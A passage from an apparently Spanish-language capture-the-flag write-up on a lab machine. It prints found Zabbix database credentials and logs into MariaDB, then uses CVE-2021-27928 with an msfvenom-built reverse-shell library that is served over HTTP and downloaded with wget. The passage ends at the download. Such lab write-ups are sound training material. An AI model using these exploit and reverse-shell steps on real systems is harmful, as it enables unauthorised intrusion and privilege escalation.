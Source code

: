 ```
### Option: DBSocket
#	Path to MySQL socket.
```
Y tenemos claves de acceso para la base de datos:  
User: zabbix
Password: bloooarskybluh

Nos conectamos a la base de datos:
```
ipmi-svc@shibboleth:/$ mysql -uzabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1660
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
Lo lógico ahora sería sacar hashes de la base de datos para averiguar las contraseñas. Adelanto que encontramos hashes pero no se pueden crackear. Otra cosa muy lógica que, al menos yo, hago menos cuando entro a una base de datos es fijarme en la versión que corre:
```
MariaDB [(none)]> status
--------------
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

Connection id:		1660
Current database:	
Current user:		zabbix@localhost
SSL:			Not in use
Current pager:		stdout
Using outfile:		''
Using delimiter:	;
Server:			MariaDB
Server version:		10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
Protocol version:	10
Connection:		Localhost v
```
Busco en internet `mariadb 10.3.25 exploit` y el primer resultado, o de los primeros, está página de github; CVE-2021-27928 MariaDB/MySQL-'wsrep provider'.  
Abro y sigo los pasos. El primero es crearnos una reverse shell:
```
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```
Paso el script al objetivo. Creo en local un servidor en python en la misma carpeta que tengo la reverse:
```
> python3 -m http.server 80
```
Y desde máquina objetivo:
``` 
ipmi-svc@shibboleth:/$ cd /tmp
ipmi-svc@shibboleth:/tmp$ wget http://10.10.14.14/CVE-2021-27928.so
--2023-05-23 11:54:12--  http://10.10.14.14/CVE-2021-27928.so
Connecting to 10.10.14.14:80... connected.
```
